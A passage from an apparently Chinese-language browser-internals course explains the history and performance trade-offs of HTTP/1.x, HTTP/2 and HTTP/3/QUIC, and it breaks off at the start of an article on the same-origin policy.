# HTTP1：HTTP 性能优化

谈及浏览器中的网络，就避不开 HTTP。我们知道 HTTP 是浏览器中最重要且使用最多的协议，是浏览器和服务器之间的通信语言，也是互联网的基石。而随着浏览器的发展，HTTP 为了能适应新的形式也在持续进化，我认为学习 HTTP 的最佳途径就是了解其发展史，所以在接下来的三篇文章中，我会从浏览器发展的视角来和你聊聊 HTTP 演进。这三篇分别是即将完成使命的 HTTP/1、正在向我们走来的 HTTP/2，以及未来的 HTTP/3。

本文主要介绍的是 HTTP/1.1，我们先讲解 HTTP/1.1 的进化史，然后再介绍在进化过程中所遇到的各种瓶颈，以及对应的解决方法。

## 超文本传输协议 HTTP/0.9

首先我们来看看诞生最早的 HTTP/0.9。HTTP/0.9 是于 1991 年提出的，主要用于学术交流，需求很简单——用来在网络之间传递 HTML 超文本的内容，所以被称为超文本传输协议。整体来看，它的实现也很简单，采用了基于请求响应的模式，从客户端发出请求，服务器返回数据

下面我们就来看看 HTTP/0.9 的一个完整的请求流程（可参考下图）。

- 因为 HTTP 都是基于 TCP 协议的，所以客户端先要根据 IP 地址、端口和服务器建立 TCP 连接，而建立连接的过程就是 TCP 协议三次握手的过程。
- 建立好连接之后，会发送一个 GET 请求行的信息，如 GET /index.html 用来获取 index.html。
- 服务器接收请求信息之后，读取对应的 HTML 文件，并将数据以 ASCII 字符流返回给客户端。
- HTML 文档传输完成后，断开连接。



总的来说，当时的需求很简单，就是用来传输体积很小的 HTML 文件，所以 HTTP/0.9 的实现有以下三个特点。

- 第一个是只有一个请求行，并没有 HTTP 请求头和请求体，因为只需要一个请求行就可以完整表达客户端的需求了。
- 第二个是服务器也没有返回头信息，这是因为服务器端并不需要告诉客户端太多信息，只需要返回数据就可以了。
- 第三个是返回的文件内容是以 ASCII 字符流来传输的，因为都是 HTML 格式的文件，所以使用 ASCII 字节码来传输是最合适的。

## 被浏览器推动的 HTTP/1.0

HTTP/0.9 虽然简单，但是已经可以满足当时的需求了。不过变化是这个世界永恒不变的主旋律，1994 年底出现了拨号上网服务，同年网景又推出一款浏览器，从此万维网就不局限于学术交流了，而是进入了高速的发展阶段。随之而来的是万维网联盟（W3C）和 HTTP 工作组（HTTP-WG）的创建，它们致力于 HTML 的发展和 HTTP 的改进。

万维网的高速发展带来了很多新的需求，而 HTTP/0.9 已经不能适用新兴网络的发展，所以这时就需要一个新的协议来支撑新兴网络，这就是 HTTP/1.0 诞生的原因。不过在详细分析 HTTP/1.0 之前，我们先来分析下新兴网络都带来了哪些新需求。

首先在浏览器中展示的不单是 HTML 文件了，还包括了 JavaScript、CSS、图片、音频、视频等不同类型的文件。因此支持多种类型的文件下载是 HTTP/1.0 的一个核心诉求，而且文件格式不仅仅局限于 ASCII 编码，还有很多其他类型编码的文件

## 那么该如何实现多种类型文件的下载呢？

文章开头我们说过，HTTP 是浏览器和服务器之间的通信语言，不过 HTTP/0.9 在建立好连接之后，只会发送类似 GET /index.html 的简单请求命令，并没有其他途径告诉服务器更多的信息，如文件编码、文件类型等。同样，服务器是直接返回数据给浏览器的，也没有其他途径告诉浏览器更多的关于服务器返回的文件信息。

这种简单的交流型形式无疑不能满足传输多种类型文件的需求，那为了让客户端和服务器能更深入地交流，HTTP/1.0 引入了请求头和响应头，它们都是以为 Key-Value 形式保存的，在 HTTP 发送请求时，会带上请求头信息，服务器返回数据时，会先返回响应头信息。至于 HTTP/1.0 具体的请求流程，你可以参考下图。



有了请求头和响应头，浏览器和服务器就能进行更加深入的交流了。

那 HTTP/1.0 是怎么通过请求头和响应头来支持多种不同类型的数据呢？

要支持多种类型的文件，我们就需要解决以下几个问题

- 首先，浏览器需要知道服务器返回的数据是什么类型的，然后浏览器才能根据不同的数据类型做针对性的处理。
- 其次，由于万维网所支持的应用变得越来越广，所以单个文件的数据量也变得越来越大。为了减轻传输性能，服务器会对数据进行压缩后再传输，所以浏览器需要知道服务器压缩的方法。
- 再次，由于万维网是支持全球范围的，所以需要提供国际化的支持，服务器需要对不同的地区提供不同的语言版本，这就需要浏览器告诉服务器它想要什么语言版本的页面。
- 最后，由于增加了各种不同类型的文件，而每种文件的编码形式又可能不一样，为了能够准确地读取文件，浏览器需要知道文件的编码类型

基于以上问题，HTTP/1.0 的方案是通过请求头和响应头来进行协商，在发起请求时候会通过 HTTP 请求头告诉服务器它期待服务器返回什么类型的文件、采取什么形式的压缩、提供什么语言的文件以及文件的具体编码。最终发送出来的请求头内容如下：

```
accept: text/html
accept-encoding: gzip, deflate, br
accept-Charset: ISO-8859-1,utf-8
accept-language: zh-CN,zh
```

其中第一行表示期望服务器返回 html 类型的文件，第二行表示期望服务器可以采用 gzip、deflate 或者 br 其中的一种压缩方式，第三行表示期望返回的文件编码是 UTF-8 或者 ISO-8859-1，第四行是表示期望页面的优先语言是中文。

服务器接收到浏览器发送过来的请求头信息之后，会根据请求头的信息来准备响应数据。不过有时候会有一些意外情况发生，比如浏览器请求的压缩类型是 gzip，但是服务器不支持 gzip，只支持 br 压缩，那么它会通过响应头中的 content-encoding 字段告诉浏览器最终的压缩类型，也就是说最终浏览器需要根据响应头的信息来处理数据。下面是一段响应头的数据信息：

```
content-encoding: br
content-type: text/html; charset=UTF-8
```

其中第一行表示服务器采用了 br 的压缩方法，第二行表示服务器返回的是 html 文件，并且该文件的编码类型是 UTF-8。

有了响应头的信息，浏览器就会使用 br 方法来解压文件，再按照 UTF-8 的编码格式来处理原始文件，最后按照 HTML 的方式来解析该文件。这就是 HTTP/1.0 支持多文件的一个基本的处理流程。

HTTP/1.0 除了对多文件提供良好的支持外，还依据当时实际的需求引入了很多其他的特性，这些特性都是通过请求头和响应头来实现的。下面我们来看看新增的几个典型的特性

- 有的请求服务器可能无法处理，或者处理出错，这时候就需要告诉浏览器服务器最终处理该请求的情况，这就引入了状态码。状态码是通过响应行的方式来通知浏览器的。
- 为了减轻服务器的压力，在 HTTP/1.0 中提供了 Cache 机制，用来缓存已经下载过的数据。
- 服务器需要统计客户端的基础信息，比如 Windows 和 macOS 的用户数量分别是多少，所以 HTTP/1.0 的请求头中还加入了用户代理的字段

## 缝缝补补的 HTTP/1.1

不过随着技术的继续发展，需求也在不断迭代更新，很快 HTTP/1.0 也不能满足需求了，所以 HTTP/1.1 又在 HTTP/1.0 的基础之上做了大量的更新。接下来我们来看看 HTTP/1.0 遇到了哪些主要的问题，以及 HTTP/1.1 又是如何改进的。

### 改进持久连接

HTTP/1.0 每进行一次 HTTP 通信，都需要经历建立 TCP 连接、传输 HTTP 数据和断开 TCP 连接三个阶段（如下图）。


在当时，由于通信的文件比较小，而且每个页面的引用也不多，所以这种传输形式没什么大问题。但是随着浏览器普及，单个页面中的图片文件越来越多，有时候一个页面可能包含了几百个外部引用的资源文件，如果在下载每个文件的时候，都需要经历建立 TCP 连接、传输数据和断开连接这样的步骤，无疑会增加大量无谓的开销。

为了解决这个问题，HTTP/1.1 中增加了持久连接的方法，它的特点是在一个 TCP 连接上可以传输多个 HTTP 请求，只要浏览器或者服务器没有明确断开连接，那么该 TCP 连接会一直保持。


从上图可以看出，HTTP 的持久连接可以有效减少 TCP 建立连接和断开连接的次数，这样的好处是减少了服务器额外的负担，并提升整体 HTTP 的请求时长。

持久连接在 HTTP/1.1 中是默认开启的，所以你不需要专门为了持久连接去 HTTP 请求头设置信息，如果你不想要采用持久连接，可以在 HTTP 请求头中加上 Connection: close。目前浏览器中对于同一个域名，默认允许同时建立 6 个 TCP 持久连接。

### 不成熟的 HTTP 管线化

持久连接虽然能减少 TCP 的建立和断开次数，但是它需要等待前面的请求返回之后，才能进行下一次请求。如果 TCP 通道中的某个请求因为某些原因没有及时返回，那么就会阻塞后面的所有请求，这就是著名的队头阻塞的问题。

HTTP/1.1 中试图通过管线化的技术来解决队头阻塞的问题。HTTP/1.1 中的管线化是指将多个 HTTP 请求整批提交给服务器的技术，虽然可以整批发送请求，不过服务器依然需要根据请求顺序来回复浏览器的请求。

FireFox、Chrome 都做过管线化的试验，但是由于各种原因，它们最终都放弃了管线化技术。

### 提供虚拟主机的支持

在 HTTP/1.0 中，每个域名绑定了一个唯一的 IP 地址，因此一个服务器只能支持一个域名。但是随着虚拟主机技术的发展，需要实现在一台物理主机上绑定多个虚拟主机，每个虚拟主机都有自己的单独的域名，这些单独的域名都公用同一个 IP 地址。

因此，HTTP/1.1 的请求头中增加了 Host 字段，用来表示当前的域名地址，这样服务器就可以根据不同的 Host 值做不同的处理。

### 对动态生成的内容提供了完美支持

在设计 HTTP/1.0 时，需要在响应头中设置完整的数据大小，如 Content-Length: 901，这样浏览器就可以根据设置的数据大小来接收数据。不过随着服务器端的技术发展，很多页面的内容都是动态生成的，因此在传输数据之前并不知道最终的数据大小，这就导致了浏览器不知道何时会接收完所有的文件数据。

HTTP/1.1 通过引入 Chunk transfer 机制来解决这个问题，服务器会将数据分割成若干个任意大小的数据块，每个数据块发送时会附上上个数据块的长度，最后使用一个零长度的块作为发送数据完成的标志。这样就提供了对动态内容的支持。

### 客户端 Cookie、安全机制

除此之外，HTTP/1.1 还引入了客户端 Cookie 机制和安全机制。

## 总结

本文我们重点强调了 HTTP 是浏览器和服务器的通信语言，然后我们从需求演变的角度追溯了 HTTP 的发展史，在诞生之初的 HTTP/0.9 因为需求简单，所以和服务器之间的通信过程也相对简单。

由于万维网的快速崛起，带来了大量新的需求，其中最核心的一个就是需要支持多种类型的文件下载， 为此 HTTP/1.0 中引入了请求头和响应头。在支持多种类型文件下载的基础之上，HTTP/1.0 还提供了 Cache 机制、用户代理、状态码等一些基础信息。

但随着技术和需求的发展，人们对文件传输的速度要求越来越高，故又基于 HTTP/1.0 推出了 HTTP/1.1，增加了持久连接方法来提升连接效率，同时还尝试使用管线化技术提升效率（不过由于各种原因，管线化技术最终被各大厂商放弃了）。除此之外，HTTP/1.1 还引入了 Cookie、虚拟主机的支持、对动态内容的支持等特性。

虽然 HTTP/1.1 在 HTTP/1.0 的基础之上做了大量的优化，但是由于一些效率问题始终很难解决，所以最终还是被 HTTP/2 所取代，这就是我们下一篇文章要介绍的内容了

# HTTP2：如何提升网络速度

上一篇文章我们聊了 HTTP/1.1 的发展史，虽然 HTTP/1.1 已经做了大量的优化，但是依然存在很多性能瓶颈，依然不能满足我们日益变化的新需求，所以就有了我们今天要聊的 HTTP/2。

本文我们依然从需求的层面来谈，先分析 HTTP/1.1 存在哪些问题，然后再来分析 HTTP/2 是如何解决这些问题的。

我们知道 HTTP/1.1 为网络效率做了大量的优化，最核心的有如下三种方式：

- 增加了持久连接；
- 浏览器为每个域名最多同时维护 6 个 TCP 持久连接；
- 使用 CDN 的实现域名分片机制。

通过这些方式就大大提高了页面的下载速度，你可以通过下图来直观感受下：


在该图中，引入了 CDN，并同时为每个域名维护 6 个连接，这样就大大减轻了整个资源的下载时间。这里我们可以简单计算下：如果使用单个 TCP 的持久连接，下载 100 个资源所花费的时间为 `100_n_RTT`；若通过上面的技术，就可以把整个时间缩短为 `100_n_RTT/(6 \* CDN 个数)`。从这个计算结果来看，我们的页面加载速度变快了不少

## HTTP/1.1 的主要问题

虽然 HTTP/1.1 采取了很多优化资源加载速度的策略，也取得了一定的效果，但是 HTTP/1.1 对带宽的利用率却并不理想，这也是 HTTP/1.1 的一个核心问题。

带宽是指每秒最大能发送或者接收的字节数。我们把每秒能发送的最大字节数称为上行带宽，每秒能够接收的最大字节数称为下行带宽。

之所以说 HTTP/1.1 对带宽的利用率不理想，是因为 HTTP/1.1 很难将带宽用满。比如我们常说的 100M 带宽，实际的下载速度能达到 12.5M/S，而采用 HTTP/1.1 时，也许在加载页面资源时最大只能使用到 2.5M/S，很难将 12.5M 全部用满。

之所以会出现这个问题，主要是由以下三个原因导致的。

### TCP 的慢启动

一旦一个 TCP 连接建立之后，就进入了发送数据状态，刚开始 TCP 协议会采用一个非常慢的速度去发送数据，然后慢慢加快发送数据的速度，直到发送数据的速度达到一个理想状态，我们把这个过程称为慢启动。

你可以把每个 TCP 发送数据的过程看成是一辆车的启动过程，当刚进入公路时，会有从 0 到一个稳定速度的提速过程，TCP 的慢启动就类似于该过程。

慢启动是 TCP 为了减少网络拥塞的一种策略，我们是没有办法改变的。

而之所以说慢启动会带来性能问题，是因为页面中常用的一些关键资源文件本来就不大，如 HTML 文件、CSS 文件和 JavaScript 文件，通常这些文件在 TCP 连接建立好之后就要发起请求的，但这个过程是慢启动，所以耗费的时间比正常的时间要多很多，这样就推迟了宝贵的首次渲染页面的时长了。

### 同时开启了多条 TCP 连接，那么这些连接会竞争固定的带宽

你可以想象一下，系统同时建立了多条 TCP 连接，当带宽充足时，每条连接发送或者接收速度会慢慢向上增加；而一旦带宽不足时，这些 TCP 连接又会减慢发送或者接收的速度。比如一个页面有 200 个文件，使用了 3 个 CDN，那么加载该网页的时候就需要建立 6 \* 3，也就是 18 个 TCP 连接来下载资源；在下载过程中，当发现带宽不足的时候，各个 TCP 连接就需要动态减慢接收数据的速度。

这样就会出现一个问题，因为有的 TCP 连接下载的是一些关键资源，如 CSS 文件、JavaScript 文件等，而有的 TCP 连接下载的是图片、视频等普通的资源文件，但是多条 TCP 连接之间又不能协商让哪些关键资源优先下载，这样就有可能影响那些关键资源的下载速度了。

### HTTP/1.1 队头阻塞

通过上一篇文章，我们知道在 HTTP/1.1 中使用持久连接时，虽然能公用一个 TCP 管道，但是在一个管道中同一时刻只能处理一个请求，在当前的请求没有结束之前，其他的请求只能处于阻塞状态。这意味着我们不能随意在一个管道中发送请求和接收内容。

这是一个很严重的问题，因为阻塞请求的因素有很多，并且都是一些不确定性的因素，假如有的请求被阻塞了 5 秒，那么后续排队的请求都要延迟等待 5 秒，在这个等待的过程中，带宽、CPU 都被白白浪费了。

在浏览器处理生成页面的过程中，是非常希望能提前接收到数据的，这样就可以对这些数据做预处理操作，比如提前接收到了图片，那么就可以提前进行编解码操作，等到需要使用该图片的时候，就可以直接给出处理后的数据了，这样能让用户感受到整体速度的提升。

但队头阻塞使得这些数据不能并行请求，所以队头阻塞是很不利于浏览器优化的。

## HTTP/2 的多路复用

前面我们分析了 HTTP/1.1 所存在的一些主要问题：慢启动和 TCP 连接之间相互竞争带宽是由于 TCP 本身的机制导致的，而队头阻塞是由于 HTTP/1.1 的机制导致的。

那么该如何去解决这些问题呢？

虽然 TCP 有问题，但是我们依然没有换掉 TCP 的能力，所以我们就要想办法去规避 TCP 的慢启动和 TCP 连接之间的竞争问题。

基于此，HTTP/2 的思路就是一个域名只使用一个 TCP 长连接来传输数据，这样整个页面资源的下载过程只需要一次慢启动，同时也避免了多个 TCP 连接竞争带宽所带来的问题。

另外，就是队头阻塞的问题，等待请求完成后才能去请求下一个资源，这种方式无疑是最慢的，所以 HTTP/2 需要实现资源的并行请求，也就是任何时候都可以将请求发送给服务器，而并不需要等待其他请求的完成，然后服务器也可以随时返回处理好的请求资源给浏览器。

所以，HTTP/2 的解决方案可以总结为：一个域名只使用一个 TCP 长连接和消除队头阻塞问题。可以参考下图：



该图就是 HTTP/2 最核心、最重要且最具颠覆性的多路复用机制。从图中你会发现每个请求都有一个对应的 ID，如 stream1 表示 index.html 的请求，stream2 表示 foo.css 的请求。这样在浏览器端，就可以随时将请求发送给服务器了。

服务器端接收到这些请求后，会根据自己的喜好来决定优先返回哪些内容，比如服务器可能早就缓存好了 index.html 和 bar.js 的响应头信息，那么当接收到请求的时候就可以立即把 index.html 和 bar.js 的响应头信息返回给浏览器，然后再将 index.html 和 bar.js 的响应体数据返回给浏览器。之所以可以随意发送，是因为每份数据都有对应的 ID，浏览器接收到之后，会筛选出相同 ID 的内容，将其拼接为完整的 HTTP 响应数据。

HTTP/2 使用了多路复用技术，可以将请求分成一帧一帧的数据去传输，这样带来了一个额外的好处，就是当收到一个优先级高的请求时，比如接收到 JavaScript 或者 CSS 关键资源的请求，服务器可以暂停之前的请求来优先处理关键资源的请求

## 多路复用的实现

现在我们知道为了解决 HTTP/1.1 存在的问题，HTTP/2 采用了多路复用机制，那 HTTP/2 是怎么实现多路复用的呢？你可以先看下面这张图：



从图中可以看出，HTTP/2 添加了一个二进制分帧层，那我们就结合图来分析下 HTTP/2 的请求和接收过程。

- 首先，浏览器准备好请求数据，包括了请求行、请求头等信息，如果是 POST 方法，那么还要有请求体。
- 这些数据经过二进制分帧层处理之后，会被转换为一个个带有请求 ID 编号的帧，通过协议栈将这些帧发送给服务器。
- 服务器接收到所有帧之后，会将所有相同 ID 的帧合并为一条完整的请求信息。
- 然后服务器处理该条请求，并将处理的响应行、响应头和响应体分别发送至二进制分帧层。
- 同样，二进制分帧层会将这些响应数据转换为一个个带有请求 ID 编号的帧，经过协议栈发送给浏览器。
- 浏览器接收到响应帧之后，会根据 ID 编号将帧的数据提交给对应的请求

从上面的流程可以看出，通过引入二进制分帧层，就实现了 HTTP 的多路复用技术。

上一篇文章我们介绍过，HTTP 是浏览器和服务器通信的语言，在这里虽然 HTTP/2 引入了二进制分帧层，不过 HTTP/2 的语义和 HTTP/1.1 依然是一样的，也就是说它们通信的语言并没有改变，比如开发者依然可以通过 Accept 请求头告诉服务器希望接收到什么类型的文件，依然可以使用 Cookie 来保持登录状态，依然可以使用 Cache 来缓存本地文件，这些都没有变，发生改变的只是传输方式。这一点对开发者来说尤为重要，这意味着我们不需要为 HTTP/2 去重建生态，并且 HTTP/2 推广起来会也相对更轻松了

## HTTP/2

其他特性通过上面的分析，我们知道了多路复用是 HTTP/2 的最核心功能，它能实现资源的并行传输。多路复用技术是建立在二进制分帧层的基础之上。其实基于二进制分帧层，HTTP/2 还附带实现了很多其他功能，下面我们就来简要了解下。

### 可以设置请求的优先级

我们知道浏览器中有些数据是非常重要的，但是在发送请求时，重要的请求可能会晚于那些不怎么重要的请求，如果服务器按照请求的顺序来回复数据，那么这个重要的数据就有可能推迟很久才能送达浏览器，这对于用户体验来说是非常不友好的。

为了解决这个问题，HTTP/2 提供了请求优先级，可以在发送请求时，标上该请求的优先级，这样服务器接收到请求之后，会优先处理优先级高的请求。

### 服务器推送

除了设置请求的优先级外，HTTP/2 还可以直接将数据提前推送到浏览器。你可以想象这样一个场景，当用户请求一个 HTML 页面之后，服务器知道该 HTML 页面会引用几个重要的 JavaScript 文件和 CSS 文件，那么在接收到 HTML 请求之后，附带将要使用的 CSS 文件和 JavaScript 文件一并发送给浏览器，这样当浏览器解析完 HTML 文件之后，就能直接拿到需要的 CSS 文件和 JavaScript 文件，这对首次打开页面的速度起到了至关重要的作用。

### 头部压缩

无论是 HTTP/1.1 还是 HTTP/2，它们都有请求头和响应头，这是浏览器和服务器的通信语言。HTTP/2 对请求头和响应头进行了压缩，你可能觉得一个 HTTP 的头文件没有多大，压不压缩可能关系不大，但你这样想一下，在浏览器发送请求的时候，基本上都是发送 HTTP 请求头，很少有请求体的发送，通常情况下页面也有 100 个左右的资源，如果将这 100 个请求头的数据压缩为原来的 20%，那么传输效率肯定能得到大幅提升。

## 总结

我们首先分析了影响 HTTP/1.1 效率的三个主要因素：TCP 的慢启动、多条 TCP 连接竞争带宽和队头阻塞。

接下来我们分析了 HTTP/2 是如何采用多路复用机制来解决这些问题的。多路复用是通过在协议栈中添加二进制分帧层来实现的，有了二进制分帧层还能够实现请求的优先级、服务器推送、头部压缩等特性，从而大大提升了文件传输效率。

HTTP/2 协议规范于 2015 年 5 月正式发布，在那之后，该协议已在互联网和万维网上得到了广泛的实现和部署。从目前的情况来看，国内外一些排名靠前的站点基本都实现了 HTTP/2 的部署。使用 HTTP/2 能带来 20%～ 60% 的效率提升，至于 20% 还是 60% 要看优化的程度。总之，我们也应该与时俱进，放弃 HTTP/1.1 和其性能优化方法，去“拥抱”HTTP/2

# HTTP3：甩掉 TCP、TCL 包袱构建高效网络

前面两篇文章我们分析了 HTTP/1 和 HTTP/2，在 HTTP/2 出现之前，开发者需要采取很多变通的方式来解决 HTTP/1 所存在的问题，不过 HTTP/2 在 2018 年就开始得到了大规模的应用，HTTP/1 中存在的一大堆缺陷都得到了解决。

HTTP/2 的一个核心特性是使用了多路复用技术，因此它可以通过一个 TCP 连接来发送多个 URL 请求。多路复用技术能充分利用带宽，最大限度规避了 TCP 的慢启动所带来的问题，同时还实现了头部压缩、服务器推送等功能，使得页面资源的传输速度得到了大幅提升。在 HTTP/1.1 时代，为了提升并行下载效率，浏览器为每个域名维护了 6 个 TCP 连接；而采用 HTTP/2 之后，浏览器只需要为每个域名维护 1 个 TCP 持久连接，同时还解决了 HTTP/1.1 队头阻塞的问题。

从目前的情况来看，HTTP/2 似乎可以完美取代 HTTP/1 了，不过 HTTP/2 依然存在一些缺陷，于是就有了 HTTP/3。和通常一样，介绍 HTTP/3 之前，我们先来看看 HTTP/2 到底有什么缺陷。

## TCP 的队头阻塞

虽然 HTTP/2 解决了应用层面的队头阻塞问题，不过和 HTTP/1.1 一样，HTTP/2 依然是基于 TCP 协议的，而 TCP 最初就是为了单连接而设计的。你可以把 TCP 连接看成是两台计算机之前的一个虚拟管道，计算机的一端将要传输的数据按照顺序放入管道，最终数据会以相同的顺序出现在管道的另外一头。

接下来我们就来分析下 HTTP/1.1 协议栈中 TCP 是如何传输数据的。为直观理解，你可以参考下图：


通过上图你会发现，从一端发送给另外一端的数据会被拆分为一个个按照顺序排列的数据包，这些数据包通过网络传输到了接收端，接收端再按照顺序将这些数据包组合成原始数据，这样就完成了数据传输。

不过，如果在数据传输的过程中，有一个数据因为网络故障或者其他原因而丢包了，那么整个 TCP 的连接就会处于暂停状态，需要等待丢失的数据包被重新传输过来。你可以把 TCP 连接看成是一个按照顺序传输数据的管道，管道中的任意一个数据丢失了，那之后的数据都需要等待该数据的重新传输。为了直观理解，你可以参考下图：



我们就把在 TCP 传输过程中，由于单个数据包的丢失而造成的阻塞称为 TCP 上的队头阻塞。

那队头阻塞是怎么影响 HTTP/2 传输的呢？首先我们来看正常情况下 HTTP/2 是怎么传输多路请求的，为了直观理解，你可以参考下图：


通过该图，我们知道在 HTTP/2 中，多个请求是跑在一个 TCP 管道中的，如果其中任意一路数据流中出现了丢包的情况，那么就会阻塞该 TCP 连接中的所有请求。这不同于 HTTP/1.1，使用 HTTP/1.1 时，浏览器为每个域名开启了 6 个 TCP 连接，如果其中的 1 个 TCP 连接发生了队头阻塞，那么其他的 5 个连接依然可以继续传输数据。

所以随着丢包率的增加，HTTP/2 的传输效率也会越来越差。有测试数据表明，当系统达到了 2% 的丢包率时，HTTP/1.1 的传输效率反而比 HTTP/2 表现得更好。

## TCP 建立连接的延时

除了 TCP 队头阻塞之外，TCP 的握手过程也是影响传输效率的一个重要因素。

为了搞清楚 TCP 协议建立连接的延迟问题，我们还是先来回顾下网络延迟的概念，这会有助于你对后面内容的理解。网络延迟又称为 RTT（Round Trip Time）。我们把从浏览器发送一个数据包到服务器，再从服务器返回数据包到浏览器的整个往返时间称为 RTT（如下图）。RTT 是反映网络性能的一个重要指标。



那建立 TCP 连接时，需要花费多少个 RTT 呢？下面我们来计算下。

我们知道 HTTP/1 和 HTTP/2 都是使用 TCP 协议来传输的，而如果使用 HTTPS 的话，还需要使用 TLS 协议进行安全传输，而使用 TLS 也需要一个握手过程，这样就需要有两个握手延迟过程。

- 在建立 TCP 连接的时候，需要和服务器进行三次握手来确认连接成功，也就是说需要在消耗完 1.5 个 RTT 之后才能进行数据传输。
- 进行 TLS 连接，TLS 有两个版本——TLS1.2 和 TLS1.3，每个版本建立连接所花的时间不同，大致是需要 1 ～ 2 个 RTT，关于 HTTPS 我们到后面到安全模块再做详细介绍

总之，在传输数据之前，我们需要花掉 3 ～ 4 个 RTT。如果浏览器和服务器的物理距离较近，那么 1 个 RTT 的时间可能在 10 毫秒以内，也就是说总共要消耗掉 30 ～ 40 毫秒。这个时间也许用户还可以接受，但如果服务器相隔较远，那么 1 个 RTT 就可能需要 100 毫秒以上了，这种情况下整个握手过程需要 300 ～ 400 毫秒，这时用户就能明显地感受到“慢”了。

## TCP 协议僵化

现在我们知道了 TCP 协议存在队头阻塞和建立连接延迟等缺点，那我们是不是可以通过改进 TCP 协议来解决这些问题呢？

答案是：非常困难。之所以这样，主要有两个原因。

第一个是中间设备的僵化。要搞清楚什么是中间设备僵化，我们先要弄明白什么是中间设备。我们知道互联网是由多个网络互联的网状结构，为了能够保障互联网的正常工作，我们需要在互联网的各处搭建各种设备，这些设备就被称为中间设备。

这些中间设备有很多种类型，并且每种设备都有自己的目的，这些设备包括了路由器、防火墙、NAT、交换机等。它们通常依赖一些很少升级的软件，这些软件使用了大量的 TCP 特性，这些功能被设置之后就很少更新了。

所以，如果我们在客户端升级了 TCP 协议，但是当新协议的数据包经过这些中间设备时，它们可能不理解包的内容，于是这些数据就会被丢弃掉。这就是中间设备僵化，它是阻碍 TCP 更新的一大障碍。

除了中间设备僵化外，操作系统也是导致 TCP 协议僵化的另外一个原因。因为 TCP 协议都是通过操作系统内核来实现的，应用程序只能使用不能修改。通常操作系统的更新都滞后于软件的更新，因此要想自由地更新内核中的 TCP 协议也是非常困难的

## QUIC 协议

HTTP/2 存在一些比较严重的与 TCP 协议相关的缺陷，但由于 TCP 协议僵化，我们几乎不可能通过修改 TCP 协议自身来解决这些问题，那么解决问题的思路是绕过 TCP 协议，发明一个 TCP 和 UDP 之外的新的传输协议。但是这也面临着和修改 TCP 一样的挑战，因为中间设备的僵化，这些设备只认 TCP 和 UDP，如果采用了新的协议，新协议在这些设备同样不被很好地支持。

因此，HTTP/3 选择了一个折衷的方法——UDP 协议，基于 UDP 实现了类似于 TCP 的多路数据流、传输可靠性等功能，我们把这套功能称为 QUIC 协议。关于 HTTP/2 和 HTTP/3 协议栈的比较，你可以参考下图：



通过上图我们可以看出，HTTP/3 中的 QUIC 协议集合了以下几点功能。

- 实现了类似 TCP 的流量控制、传输可靠性的功能。虽然 UDP 不提供可靠性的传输，但 QUIC 在 UDP 的基础之上增加了一层来保证数据可靠性传输。它提供了数据包重传、拥塞控制以及其他一些 TCP 中存在的特性。
- 集成了 TLS 加密功能。目前 QUIC 使用的是 TLS1.3，相较于早期版本 TLS1.3 有更多的优点，其中最重要的一点是减少了握手所花费的 RTT 个数。
- 实现了 HTTP/2 中的多路复用功能。和 TCP 不同，QUIC 实现了在同一物理连接上可以有多个独立的逻辑数据流（如下图）。实现了数据流的单独传输，就解决了 TCP 中队头阻塞的问题。


实现了快速握手功能。由于 QUIC 是基于 UDP 的，所以 QUIC 可以实现使用 0-RTT 或者 1-RTT 来建立连接，这意味着 QUIC 可以用最快的速度来发送和接收数据，这样可以大大提升首次打开页面的速度。

## HTTP/3 的挑战

通过上面的分析，我们相信在技术层面，HTTP/3 是个完美的协议。不过要将 HTTP/3 应用到实际环境中依然面临着诸多严峻的挑战，这些挑战主要来自于以下三个方面。

1. 从目前的情况来看，服务器和浏览器端都没有对 HTTP/3 提供比较完整的支持。Chrome 虽然在数年前就开始支持 Google 版本的 QUIC，但是这个版本的 QUIC 和官方的 QUIC 存在着非常大的差异。
2. 部署 HTTP/3 也存在着非常大的问题。因为系统内核对 UDP 的优化远远没有达到 TCP 的优化程度，这也是阻碍 QUIC 的一个重要原因。
3. 中间设备僵化的问题。这些设备对 UDP 的优化程度远远低于 TCP，据统计使用 QUIC 协议时，大约有 3%～ 7% 的丢包率。

## 总结

我们首先分析了 HTTP/2 中所存在的一些问题，主要包括了 TCP 的队头阻塞、建立 TCP 连接的延时、TCP 协议僵化等问题。

这些问题都是 TCP 的内部问题，因此要解决这些问题就要优化 TCP 或者“另起炉灶”创造新的协议。由于优化 TCP 协议存在着诸多挑战，所以官方选择了创建新的 QUIC 协议。

HTTP/3 正是基于 QUIC 协议的，你可以把 QUIC 看成是集成了“TCP+HTTP/2 的多路复用 +TLS 等功能”的一套协议。这是集众家所长的一个协议，从协议最底层对 Web 的文件传输做了比较彻底的优化，所以等生态相对成熟时，可以用来打造比现在的 HTTP/2 还更加高效的网络。

虽说这套协议解决了 HTTP/2 中因 TCP 而带来的问题，不过由于是改动了底层协议，所以推广起来还会面临着巨大的挑战。

关于 HTTP/3 的未来，我有下面两点判断：

- 从标准制定到实践再到协议优化还需要走很长一段路；
- 因为动了底层协议，所以 HTTP/3 的增长会比较缓慢，这和 HTTP/2 有着本质的区别

# 同源策略：为什么 XMLHttpRequst 不能跨域请求资源

通过前面 6 个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的 5 篇文章，我们就来系统地介绍下浏览器安全相关的内容。

浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全和浏览器系统安全，所以本模块我们就按照这个思路来做介绍。鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。

今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web 世界会是什么样子的呢？

Web 世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频 / 视频等资源，甚至可以下载其他站点的可执行文件。

Web 世界是开放的，这很符合 Web 理念。但如果 Web 世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。

比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：

- 修改银行站点的 DOM、CSSOM 等信息；
- 在银行站点内部插入 JavaScript 脚本；
- 劫持用户登录的用户名和密码；
- 读取银行站点的 Cookie、IndexDB 等数据；
- 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。

所以说，在没有安全保障的 Web 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全。

这就引出了页面中最基础、最核心的安全策略：同源策略（Same-origin policy）。

## 什么是同源策略

